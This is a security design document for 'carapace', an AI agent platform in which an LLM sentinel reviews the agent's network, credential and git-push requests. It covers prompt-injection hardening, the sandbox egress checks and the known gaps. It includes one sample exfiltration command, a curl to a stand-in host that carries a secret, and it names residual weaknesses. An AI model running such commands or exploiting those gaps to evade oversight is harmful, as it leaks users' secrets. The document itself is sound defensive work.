

# Security System

carapace lets the agent work freely inside its sandbox and reviews where it reaches outside. Agent tools run without review, but every call lands in the session's action log. An LLM-powered **sentinel agent** judges what crosses the boundary: proxy domains, credentials, up-front requests and git pushes. It keeps a persistent conversation per session and decides against a natural-language security policy and the full history of what happened so far.

## How it works

1. **Tool calls are logged, not reviewed.** Every agent tool (`exec`, file edits, `read_skill`, …) runs right away and gets an action log entry and an audit entry (`auto_allowed`), and the UI shows it without an approval badge, in YOLO mode too (see [Tool calls](#tool-calls)).
2. **Boundary requests are reviewed.** What a command wants from outside the sandbox reaches the sentinel as a [boundary request](#boundary-requests), and every push to the knowledge repo as a [git push evaluation](#git-push-evaluation). The sentinel gets the action log since its last decision with each of them.
3. **Verdict.** The sentinel is a guard rail, not a reviewer of the agent's work: it stops the agent from going haywire beyond the sandbox, changing what it was not asked to change, exfiltrating data, or following injected instructions, and lets everything else through. It returns one of three decisions:
   - **allow** -- proceed without interruption; on a git push optionally with a comment for the agent (see [Sentinel comments](#sentinel-comments)).
   - **escalate** -- pause the operation and ask the user for approval.
   - **deny** -- block the operation. Besides threats, this covers a git push that bundles or reaches beyond what the user asked for; its explanation then says what would be acceptable (split it, narrow its scope, drop the unrequested extra, ask the user in chat, or explain how the step follows from the user's request), and the agent can retry. A git push, an up-front request or a credential request whose purpose is unclear is denied too, wherever the agent reads the explanation, with a request to say what it does and why; the sentinel decides the retry with that explanation and escalates only if it stays unclear (a domain at the proxy is escalated right away, since most clients drop the explanation in the proxy's 403). A better way to the same goal is a comment, not a denial. The explanation reaches the agent in git's output for a push, and the command that asked for a boundary request.
4. **Audit.** Every tool call and every decision is recorded in a per-session audit log.

## Sentinel comments

When the sentinel allows a git push, it can add a `comment` (at most 500 characters) for the agent: a pitfall, a better approach, something the user said. The `explanation` stays the reason for the audit log; the comment is addressed to the agent.

`SessionSecurity` collects the comments, and `SentinelCommentCapability` puts them into the agent's next model request as a `SystemPromptPart`, right after the tool results. A comment on a push made by an `exec` arrives the same way, after that `exec`'s result. The system voice matters: tool output is untrusted and could forge a comment, and a user prompt part would read as the user speaking. Models with inline system messages (OpenAI, Codex, newer Claude models) get a `system` entry; for the others (e.g. Claude Sonnet 4.6) pydantic-ai sends `<system>`-tagged text in the user turn, and pydantic-ai picks the rendering per model. The comment is appended, so the cached prefix stays intact; for the tag explanation pydantic-ai adds to the standing prompt, see [persistent-context.md](persistent-context.md#prefix-caching).

An output validator rejects a comment on any other verdict, and on proxy domain, credential and up-front requests, where only the verdict and its explanation go back to the command that asked (see [Boundary requests](#boundary-requests)). The UI and Matrix show the comment on the push (`approval_comment`).

## SECURITY.md -- the policy file

The security policy lives in each user's Git-backed knowledge repo as `SECURITY.md`. With the default layout, the file for user `alice` is `data/knowledges/alice/SECURITY.md`. The sentinel resolves the policy from the session owner, so two users can run with different policies at the same time. The file is written in plain English and becomes part of the sentinel agent's system prompt. There are no rigid YAML rules to parse -- the sentinel interprets the policy with full LLM understanding.

The shipped default policy (see `src/carapace/assets/SECURITY.md`) covers:

- **Default stance** -- assume the agent is usually doing the right thing; judge safety and scope, never the quality of the agent's work (advice goes into a comment); escalate for genuine ambiguity or risk, not routine work; deny when listed threats clearly apply; the user may instruct the sentinel how to treat a specific next step (within hard safety limits).
- **Verdicts** -- when to allow (with an optional comment on a push), escalate or deny. Scope creep and bundling an unrequested extra into a push get a `deny` that says what would be acceptable, and an unclear push, up-front request or credential request a `deny` that asks the agent what it is for, not a question to the user; a second attempt at the same intent without the change becomes `escalate`, or `deny` in unattended sessions (the sentinel sees its earlier verdicts in the action log, there is no counter in code).
- **Threats** -- prompt injection, destructive or absurd approaches with effects beyond the sandbox, task drift, unsafe handling of passwords.
- **The sandbox is the boundary** -- commands run without review; the sentinel decides where they reach outside (domains, credentials, up-front requests, git push), with the commands before the request in view.
- **Network (proxy)** -- TLS hides everything except the domain; higher bar for outbound than inbound; judge plausibility from the command that asked, the commands before it and the conversation.
- **Skills** -- reading a skill grants nothing; its commands ask for what they declare with `cgate request`, judged like any other request; a push that changes a skill's flake changes commands every session runs.
- **Credentials** -- explicit sandbox vault access, including listing and searching credentials, must fit the user’s task; deny exfiltration-style patterns; secrets must never be echoed or logged in plain text.
- **Git push** -- always escalate when `USER.md`, `SOUL.md`, `AGENTS.md`, or `SECURITY.md` change; other files may be allowed when the chat clearly shows user intent. Committing and pushing a change the user requested or approved is part of that request. An `exec` that commits and pushes the knowledge repo is not escalated for the push alone, since the push gets its own review with the actual diff.
- **Autonomy** -- slightly more care after long unsupervised stretches or fresh external content, without escalating every harmless step.
- **Proxy domain requests** -- a decision of their own: no earlier review covers a domain, even one written in the command; judge it against the task and the commands that ran.

Edit `SECURITY.md` to customize the policy for your setup. The sentinel will immediately pick up changes on the next session.

### Upgrading an existing SECURITY.md

The default is only copied into a knowledge repo that has no `SECURITY.md` yet, so an existing policy keeps the wording of the version it was seeded from. Since `exec` is no longer reviewed, compare yours with `src/carapace/assets/SECURITY.md` and adapt:

- Drop `exec` from the tool calls the sentinel reviews, and replace a section on judging `exec` in the sandbox ("Sandbox and layered defense") with the boundary model ("The sandbox is the boundary").
- Say that comments only exist for git pushes: no tool call is reviewed.
- List exactly three verdicts (`allow`, `escalate`, `deny`) and move what your copy says about `revise` to `deny`: a push denied for its scope says what would be acceptable.
- Drop the "Usually low risk" list (file reads and edits, `list_skills`): the sentinel never sees those as requests.
- Correct the knowledge repo path to `/workspace`, if your copy says `/workspace/knowledge`.
- Replace "The triggering tool call was already cleared by you or the user", if your copy still has it: no review precedes a domain or credential request.
- Remove "Read-only shell commands" from the low-risk list.
- Replace the section on skill activation (`use_skill`) and the bullet "Skill-declared credentials: covered by approval of `use_skill`" with the section "Skills": skills are read with `read_skill`, which grants nothing, and their commands ask with `cgate request`.

A stale policy does not break anything, but it describes reviews that no longer happen.

The cap on domain reviews follows the same cut: `agent.max_sentinel_calls_per_tool_call` is now `agent.max_sentinel_calls_per_exec`, since one exec is the scope a review covers. The setting lives only in the platform settings, and the database migration renames it there.

## Tool calls

No agent tool is reviewed by itself: `exec`, `read`, `write`, `str_replace`, `list_skills`, `read_skill`, `send_file`, `show_artifact` and `read_tool_output` all run right away. The sandbox is the boundary, and a tool reaches outside only through a boundary request or a push, which are reviewed.

Each call still gets an action log entry with its full arguments and an audit entry (`auto_allowed`), YOLO mode included; it is not a silent bypass. For `exec` that matters: the sentinel sees every command that ran since its last decision with the next boundary request, which is where a sequence like packing up mail and then asking for an upload host shows. A `read_skill` call tells it which skill the following requests belong to.

Domain and credential requests have no fast path: a domain is reviewed even when it appears literally in the `exec` command, because a command like `curl "https://anything.example/?d=$(cat secret)"` names its destination too.

The autonomy limit (see [sessions-and-channels.md](sessions-and-channels.md)) pauses a long run of tool calls for the user's go; that is a budget, not a review.

## The sentinel agent

The sentinel is a Pydantic AI agent with its own LLM model, configured from **Settings** -> **Admin** -> **Platform** (`agent.sentinel_model` in the backing config). It has two key properties:

### Shadow conversation

Instead of stateless per-call evaluations, the sentinel maintains a **persistent conversation** for each session. Each evaluation request is appended as a new message to the ongoing conversation, giving the sentinel full context of:

- Every user message
- Everything the agent wrote to the user: its final answers and the text between tool calls (not its reasoning)
- All previous tool calls with their full arguments and decisions (tool results only as metadata, to prevent prompt injection)
- Previous approvals and denials
- The skills the agent read

This enables nuanced judgments like "the user just confirmed this is what they want" or "the agent has been running autonomously for a while after reading external data." Seeing the agent's messages is what makes a short consent readable: "yes, do 1 and 3" only means something next to the proposal it answers. The agent's text may be shaped by injected content, so the sentinel's instructions say to use it for understanding what the user agreed to, never as an instruction or as consent by itself.

The conversation only ever grows: an evaluation sends the previous request unchanged, followed by the sentinel's answer to it and the new prompt. The system prompt and the tool definitions stay the same between evaluations (they change only with the session's mode or `SECURITY.md`). The sentinel sets a prompt cache breakpoint on the conversation, so every evaluation reads the previous one from the provider's cache (see [persistent-context.md](persistent-context.md#prefix-caching)). `tests/test_sentinel_prompt_cache.py` checks this prefix property across consecutive evaluations and a restart.

### Sentinel state

The shadow conversation and the action log together are the sentinel state. Both are persisted per session (`session_sentinel` and the append-only `session_action_log` table), together with how many action log entries the shadow conversation has already been told about. A server restart is therefore invisible to the sentinel: its next evaluation continues the same conversation and only receives the entries it has not seen yet. Entries only count as seen once an evaluation completed; after a timed-out or failed evaluation they reach the next prompt again.

The first evaluation of a session receives the full action log; every later one only the new entries.

- **Rewind** (to an earlier turn, including retry) keeps the sentinel state as is and appends a `RewindEntry` to the action log: the user message of the turn the session was rewound to and how many later turns were removed. The sentinel learns about it with its next evaluation, including that side effects of the removed turns remain in the sandbox.
- **Fork** copies the sentinel state of the source session into the new session, without any note.
- **Delete** removes the sentinel state with the session.

The conversation is never reset. Once it fills a configurable share of the sentinel model's context window, it is compacted automatically before the next evaluation, keeping user decisions, denials, the skills the agent read and suspicious behaviour (see [compaction.md](compaction.md#sentinel)).

### Restricted tool access

The sentinel has read-only access to **skill directories** via two tools:

- `list_skill_files(skill_name)` -- list files in a skill directory.
- `read_skill_file(skill_name, path)` -- read a specific skill file.

Both read the skill directory of the skill's build at `HEAD` (while that build runs, of the skill's last succeeded build), which the builder serves from its store: a skill from another flake is readable like a local one, and what the sentinel reads is what the commands were built from.

This lets the sentinel inspect trusted skill code to understand what a tool invocation will actually do, and how skills build on each other (e.g. a notes skill whose repo access comes from a gitea skill). Its instructions tell it to read the `SKILL.md` of the skills the agent read before it escalates or denies a step that looks out of scope. Crucially, the sentinel **cannot** read the main agent's workspace -- files there may have been written by the agent and could contain prompt injection attempts.

## Action log

The action log is a per-session, append-only chronological record of all significant events:

| Entry type              | What it records                                             |
| ----------------------- | ----------------------------------------------------------- |
| `UserMessageEntry`      | User sent a message                                         |
| `AgentResponseEntry`    | Text the agent showed the user (answer or between tools)   |
| `ToolCallEntry`         | Tool was called, with full arguments, decision, explanation |
| `ToolResultEntry`       | Tool returned a result (metadata only, not content)         |
| `ApprovalEntry`         | User approved or denied an escalated action                 |
| `GitPushEntry`          | Git push evaluated by sentinel (ref, decision, explanation) |
| `CredentialAccessEntry` | Credential access attempt (vault paths, decision)           |
| `UserVouchedEntry`      | User confirmed the agent is trustworthy                     |
| `RewindEntry`           | Session was rewound (target user message, removed turns)    |

The action log serves as the sentinel's primary source of truth. Raw tool results are never included -- only their metadata (size, success/failure) -- to prevent prompt injection via tool output.

This action log is distinct from both runtime session transcripts:

- `history.yaml` stores the raw model conversation state (`ModelMessage` history) for the main agent.
- `events.yaml` stores the user-facing session transcript and operational events used by the UI, retry/reset/fork flows, and knowledge export.
- `audit.yaml` stores security decisions and sentinel verdicts for auditability.

## Boundary requests

Requests that cross the sandbox boundary while a command runs, a domain at the proxy, a credential through `ccred` or everything a command declares up front with `cgate request`, are decisions of their own, not a plausibility check behind an already reviewed `exec`. The sentinel is told so in its instructions.

- **What the sentinel sees.** The usual action log update: every entry since its last decision, which includes the `exec` calls that ran since then, followed by the request and the command that is running. A later request of the same `exec` is a short follow-up instead: what it adds, without repeating the command. The first request of every `exec` shows its command.
- **Up-front requests.** `cgate request` asks for domains, credentials and TCP tunnels together and gets one verdict for all of them. A tunnel is judged like a domain request for its host ([sandbox.md](sandbox.md#tunnels)). A declaration carries no trust; the sentinel also sees the caller's store path; whether it matches the build for the current head is not checked yet, so it is reported as unknown. See [sandbox.md](sandbox.md#declaring-needs-up-front-cgate) for the CLI.
- **What the caller gets back.** The verdict and the sentinel's (or the user's) explanation. The proxy answers a denied domain with `403 Forbidden` and the explanation as a plain-text body; `ccred` and `cgate` print a denial on stderr and exit with status 1. The command decides how to continue; the `exec` is not aborted from outside. Comments are not offered here.
  For HTTPS the 403 answers the `CONNECT`, and common clients drop its body: curl reports `CONNECT tunnel failed, response 403`, Python requests `Tunnel connection failed: 403 Forbidden`. Only plain HTTP clients reliably see the explanation, so do not build on it for HTTPS.
- **Scope of an approval.** An approved domain or credential is free for the rest of that `exec` and not beyond. A credential approval covers the representation that was reviewed: a second `ccred get` for the same vault path in the same form returns without another review, `--json` after an approved password is reviewed again, and the next `exec` asks again. An approved `ccred list` or `ccred search` covers further listings in that `exec`. Only the first request is recorded; repeats within the `exec` leave no new UI, action log or audit entry.
- **Late decisions.** A review can take minutes when it escalates to the user, and the `exec` may end meanwhile (a backgrounded `curl … &`, a timeout). A decision that comes back after its `exec` ended is not granted, neither to leftover processes nor to a later `exec`; the caller gets a denial.
- **Outside an exec.** A request while no `exec` is running comes from a process an earlier call left behind. Carapace refuses it without asking the sentinel.
- **Escalation.** The sentinel can escalate any of these to the user, who sees the request in the web UI, Matrix or the CLI. An up-front request shows as an "Access Request" with its domains and credentials.

## Credential access

Credential access is mediated through the sandbox API and session state:

- Sandbox scripts use `ccred` (or direct HTTP) to call `GET /credentials` and `GET /credentials/{vault_path}`.
- `list` / `search` expose metadata only (names, vault paths, descriptions), but they enumerate the vault, so they are boundary requests like `get` (see [Boundary requests](#boundary-requests)).
- `get` is reviewed per `exec`: unless the credential was approved earlier in the same `exec`, carapace asks the sentinel and blocks until it or the user decides.
- An OAuth entry never leaves the server: it holds the refresh token. Carapace refuses any vault value that is a JSON object with a `refresh_token`, in every form of `ccred get`; every path that hands a value to a sandbox goes through one helper, `credentials.oauth.fetch_for_sandbox`. Near misses such as a Google `authorized_user` file are refused too, though only the Carapace format (`token_url`) can be refreshed. A sandbox gets only its access token (`GET /oauth-token/{vault_path}`, `ccred get --access-token`), reviewed like a credential and good for the rest of the `exec`. A forced refresh is allowed once per `exec` and entry: enough for a client whose token was rejected, not a loop that mints tokens.
- A static bearer token of an MCP server is an ordinary credential and enters the sandbox like one. Once there, the command could keep it; sending it anywhere still needs a domain approval.
- Credential access decisions are recorded as `CredentialAccessEntry` action-log events.

As with the rest of carapace's model, the "keep secrets out of model output" guarantee is defense-in-depth: policy + sentinel + agent behavior. It is not a protocol-level cryptographic boundary, so secret-echoing commands must remain prohibited.

## Leftover sandbox processes

Grants (sentinel-approved domains and credentials) apply to the whole session sandbox while a call runs, not to one process. A process left over from an earlier call, such as a `nohup` job or a script that daemonizes itself, would inherit them. carapace therefore kills every process in the sandbox except PID 1 at the start of every call, before granting anything; see [Process model](sandbox.md#process-model).

This protects against leftovers, accidental or naive. It does not stop an agent that deliberately tampers with the killer's interpreter, the dynamic loader or `bash` inside the sandbox, where it is root. A static killer on a read-only mount is tracked in [#538](https://github.com/thiesgerken/carapace/issues/538).

## Audit log

Every security decision is written to a per-session audit log file at `$CARAPACE_DATA_DIR/sessions/<session_id>/audit.yaml`. Each entry includes:

- Timestamp
- Whether it was a tool call, proxy domain request, credential request, or git push (an up-front request is written as one entry per domain and credential)
- The sentinel's verdict (decision, explanation, risk level), none for a tool call
- The final decision (may differ if user overrode an escalation)

## Proxy domain requests

When a sandboxed container makes a network request, the proxy intercepts it and routes the domain to the security module. The sentinel decides whether this command may talk to that host, given the task and the commands that ran:

- A `curl` to `api.github.com` when running a git command → expected.
- A Python script connecting to an unrelated domain not mentioned in the task → suspicious.
- A domain that appears in the command is no reason to allow it by itself: the command may carry data to it.

A denied request gets a `403 Forbidden` whose body carries the explanation (see [Boundary requests](#boundary-requests)).

The sentinel does not know which names are internal. So the proxy refuses private and internal destinations (Postgres, Redis, the builder, cluster services, the LAN, the server itself) by policy: IP literals before any domain decision, names after it (a name is resolved only once allowed, so DNS lookups cannot carry data for unapproved names), and it connects only to an address it checked. Only an operator setting opens specific internal hosts; see [Internal destinations](sandbox.md#internal-destinations). The one built-in exception is the builder's binary cache, reads of cache paths only ([Builder cache](sandbox.md#builder-cache)).

Where the sandbox network isolation is enforced (Docker's internal network, or on Kubernetes a NetworkPolicy the CNI enforces), the sandbox cannot resolve names, so a DNS lookup cannot carry data past the proxy and its domain checks; see [No DNS from the sandbox](sandbox.md#no-dns-from-the-sandbox).

## Start-up egress self-test

Every domain check above assumes that sandbox traffic has to pass the session proxy. That assumption breaks silently: a Kubernetes CNI that does not enforce NetworkPolicy, another policy that grants sandbox pods wider egress, or a Docker sandbox network that is not internal. Without `exec` review the network boundary is the only layer, so carapace checks it before it serves anything.

At start, once the session proxy listens, the server creates one throwaway sandbox (`carapace-sandbox-egress-check-<random>`, a fresh name per start) with the same image, network, labels and therefore NetworkPolicy as a session's sandbox, but without proxy settings. Inside it, it tries:

- a request to the session proxy without credentials, which must get the proxy's own `407` answer. This positive control proves that the probe can open connections at all (a `bash` without `/dev/tcp`, a broken pod network or a misbehaving `timeout` would otherwise make every attempt fail and read as "sealed"), and that the address sandboxes are given really leads to the server. A TCP handshake alone would not: a relay in between (like the [dev stack's](development.md#how-sandboxes-reach-the-server)) accepts connections even when it can't reach the server,
- direct TCP connections to `1.1.1.1:443`, `8.8.8.8:53` and `9.9.9.9:443`,
- a TCP connection to port 53 of every non-loopback resolver in the server's own `/etc/resolv.conf`. On Kubernetes that is the cluster DNS: sandbox pods run with `dnsPolicy: None`, so a lookup by name fails there even when a namespace policy such as "allow DNS to kube-system" lets them reach kube-dns directly, which is a channel for data,
- a DNS lookup of `example.com` by name, which tests Docker's embedded resolver.

Each attempt has a 5-second timeout. If any of the leaks succeeds, the server logs what got out, the likely cause and the fix for its runtime, and exits with status 1. If the probe cannot run (the positive control fails, a tool is missing), the server says so and exits too, since it cannot tell whether sandboxes are sealed. The probe sandbox is removed either way, and leftovers from a server that was killed mid-check (labelled `carapace.egress-check` and with the server's [instance](sandbox.md#instances), on Kubernetes also with the release's `app.kubernetes.io/instance`) are removed before the next one starts. The [dev stack](development.md#dev-stack) passes it too, on a Mac as well. A development server that can't can switch it off with `CARAPACE_SANDBOX_EGRESS_SELF_TEST=false`; the server then logs a warning at every start. Never switch it off for a server that runs real sessions: a deployment where the check fails is not safe to run.

Limits: the probe needs `bash`, `timeout` and `getent` in the sandbox image. Its public targets are fixed, so a network that blocks exactly these addresses but nothing else would pass. In-cluster services other than the cluster DNS (postgres, the Bitwarden proxies) are not probed; the chart's NetworkPolicy keeps sandboxes away from them, and a wider policy would have to be found by hand. On Kubernetes the check adds the creation of one sandbox pod to the server's start-up time.

## Skill builder

The [builder](builder.md) evaluates and builds every user's skill flakes. Its input is committed content of a user's server-side knowledge repo. Pushes from a sandbox are reviewed by the sentinel, but content also arrives through the startup pull, `/pull` from an upstream remote, bootstrap seeding and the Knowledge UI. So builder input is as trusted as that user, not sentinel-reviewed.

- **What a malicious skill flake can do on the builder.** Fixed-output derivations and fetches during evaluation have network access, so a flake can leak what it can read. A build and an update check get that user's `skills/` and nothing else of the repo; the result is shared only with users whose `skills/` tree is identical, since the key covers all of it. An update check fetches into a throwaway store, so nothing it locks reaches the binary cache. `skills/flake.lock` itself may name no absolute `path:`, `file:` or `git+file:` input, nested ones included. The builder holds no skill credentials. On Kubernetes its egress is limited to public addresses (plus `builder.egress.allowedCidrs`), so a flake cannot reach the cluster, the node or the LAN ([egress](builder.md#egress-on-kubernetes)); under Compose its egress is unrestricted. Accepted risk.
- **One store for all users.** Builds run in the Nix build sandbox and can only produce their own outputs, so they cannot read other users' sources in the store. The store itself is shared: through the [binary cache](builder.md#binary-cache) a sandbox can fetch another user's skill paths if it knows their hash. Accepted risk: store hashes are not guessable, and credentials never enter the store.
- **Evaluation is not in the build sandbox.** An evaluator bug would be code execution on a service that builds for every user. Evaluation runs in a throwaway process as an unprivileged user that the Nix daemon does not trust, so it has no signing key and cannot change daemon settings such as the sandbox. But it runs as the same user as the API: an evaluator escape can read the builder token and rewrite the stored results of every user, pointing their store paths at paths it built, which then land on other users' sandboxes. Accepted for now; the upgrade path is a separate evaluation user ([builder](builder.md#inside-the-image)). Further hardening (limits on endless evaluation, memory) is out of scope for now.
- **Build sandbox privileges.** On Kubernetes the builder pod uses a user namespace (`hostUsers: false`), so root in the pod is an unprivileged user on the node; the unconfined seccomp and AppArmor profiles and the unmasked `/proc` apply inside that namespace. Docker Compose has no per-container user namespace: there the builder runs as host root with Docker's default capabilities and with seccomp, AppArmor and `/proc` masking switched off. A build that escapes the Nix sandbox is then root on the Docker host. Run the builder on Kubernetes or on a separate machine where that matters.
- **The binary cache** is open to every sandbox without a sentinel decision. It is read-only and serves only store paths, so it brings software in, not data out. The paths a sandbox asks for do leave: a narinfo name or NAR name the builder does not have goes on to the upstream caches, bounded to Nix's base32 and 32 characters (narinfo) or 52 (NAR). Only the operator-configured upstreams see those requests. Accepted risk.
- **Pod Security.** The builder pod needs Pod Security level `privileged` (unconfined seccomp and AppArmor, unmasked `/proc`), and that level applies to every pod in its namespace. So the builder runs in its own namespace, and the release namespace, where the server creates sandbox pods, enforces `baseline` ([Kubernetes](kubernetes.md#pod-security)). The server only writes baseline-compliant sandbox pods, so admission is a second layer: if the server's service account were misused to create pods, admission would still reject privileged, hostPath and host-network pods there.
- **The build API** requires the builder token, and sandboxes cannot reach it directly: on Compose it is not on the sandbox network, and on Kubernetes the builder runs in its own namespace, where a NetworkPolicy admits only the server pod. The session proxy, which runs in the server, refuses private and cluster-internal destinations (see [internal destinations](sandbox.md#internal-destinations)), so an approved domain request for the builder's host name does not reach it either. A builder on a public address is reachable through an approved request; the token still guards every route except `/healthz`.

## Git push evaluation

When the agent pushes changes from a sandbox container back to the knowledge repository, the push is gated by a **pre-receive hook** that routes each ref update through the sentinel. The sentinel sees the branch, commit log, and diff, and decides whether to allow the push.

When a push changes a `flake.lock`, the sentinel also gets one plain line per changed input, so it does not have to read a lock diff to notice that `nixpkgs` now points somewhere else. Inputs are named by their path from the root flake (`carapace/uv2nix`), and each line says whether the input was added, removed, bumped to another revision of the same source, or **moved to another source** (another owner, repository or URL); a change to what an input follows shows too. There is no allowlist: the lines are information for the review. Every value taken from the lock, and the file's path, is quoted as a JSON string, so a newline in a pushed lock cannot forge a line of this block. A lock that cannot be parsed, or that has more than 500 inputs (the walk follows paths, which a crafted lock can multiply), is reported in one line that points to the raw diff.

Like proxy domains, the sentinel can escalate a git push to the user for approval. Push evaluation results (allow, deny, escalate) are broadcast to all session subscribers (WebSocket, Matrix) and recorded in both the action log (`GitPushEntry`) and the audit log.

If a push is denied, `git push` fails in the sandbox and the pre-receive hook prints the reason (`Push rejected: Sentinel denied this operation. ...`), which the agent reads in git's output.

If an external remote is configured (`config.git.remote` in the owning user record), a successful push from the sandbox is automatically forwarded to the remote. Users can also trigger this manually with the `/push` slash command.

If the sentinel escalates a domain request, it is forwarded to the user through their channel (WebSocket, Matrix).

## Veto semantics

carapace follows strict veto semantics: if **any** part of the security system says "no" (or "needs approval"), that decision is final. This means:

- A sentinel denial of a boundary request or push cannot be overridden by an earlier allow; each request is decided on its own.
- A user denial on an escalated action is always final.

This makes the system easy to reason about: the strictest judgment always wins.

## Web UI image policy

The frontend's nginx sends `Content-Security-Policy: img-src 'self' data: blob:` plus any explicitly configured origins, so the browser refuses to fetch images from anywhere else. Helm renders `frontend.csp.imgSrcExtra` into a mounted ConfigMap snippet. Compose users can mount a one-line `set $csp_img_src "img-src 'self' data: blob: https://api.example.com";` at `/etc/nginx/csp.d/img-src.conf`; no runtime environment substitution is used. Injected model output therefore cannot exfiltrate data through image URLs, whether as a Markdown image, a mermaid `<image>` or a CSS `url()` in a diagram style. Only images are restricted: scripts and styles are not covered by this policy.

Knowledge raw downloads and sent-file downloads share an inline MIME allowlist: PNG, JPEG, GIF, WebP, and AVIF. All other types, including HTML and SVG, are served as `application/octet-stream` attachments so agent-authored files cannot execute scripts on the app origin. Explicit `?download=1` requests also use octet-stream attachment responses, including for raster images.

## Prompt injection hardening

The sentinel is designed to resist prompt injection:

1. **No raw tool results.** The sentinel never sees file contents, API responses, or command output -- only metadata about the results. It does see the agent's messages and tool call arguments, which injected content may have shaped: a deliberate tradeoff, since the sentinel cannot judge consent without the conversation. Its instructions treat that text as context, never as instructions.
2. **Adversarial awareness.** The sentinel's system prompt includes explicit warnings about prompt injection attempts in action log entries.
3. **Restricted file access.** The sentinel can only read trusted skill directories, not the agent's potentially compromised workspace.
4. **Structured output.** The sentinel returns a `SentinelVerdict` Pydantic model, not free-form text, reducing the attack surface for output manipulation.

The web UI never loads remote images from rendered Markdown or Mermaid diagrams: a non-same-origin Markdown image is shown as a link with its URL, and remote SVG `<image>`s are dropped, so injected text cannot exfiltrate data through image URLs without a click.
